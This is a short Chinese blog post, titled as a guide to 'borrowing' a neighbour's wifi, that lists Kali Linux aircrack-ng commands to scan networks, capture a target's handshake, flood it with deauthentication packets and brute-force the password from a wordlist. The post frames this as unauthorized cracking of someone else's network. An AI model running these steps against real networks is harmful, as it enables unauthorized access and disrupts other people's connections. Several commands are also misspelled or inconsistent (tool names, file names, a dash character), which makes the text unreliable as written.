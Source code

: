 ```yaml
---
layout:     post
title:      借用隔壁老王wifi攻略
category:   tag
description: 借用隔壁老王wifi攻略
---
```

这篇文章如题，详细的内容不描述。

System : Kali Linux
Tool airmon-ng , 可以探针wifi

1.检测wifi 的存在
<pre class="prettyprint">
iwcofing
</pre>

2.Check kill
<pre class="prettyprint">
airman-ng check kill
</pre>

3. 查看无线网卡
<pre class="prettyprint">
airmon -ng
</pre>

4. 开启无线网卡 
<pre class="prettyprint">
airmon -ng  start wlan0mon
</pre>

5. 查找无线网络
<pre class="prettyprint">
airodump-ng wlan0mon
</pre>

6. 网络抓包
<pre class="prettyprint">
airodump-ng -w vutfile -c 1 —bssid MacAddress wlan0mon
</pre>

7. ARP 发包
<pre class="prettyprint">
aireplay-ng -0 0 -a MacAddress wlan0mon
</pre>

8. 暴力破解
<pre class="prettyprint">
aircrack-ng outfile1.cap -w /your_world_list_path
</pre>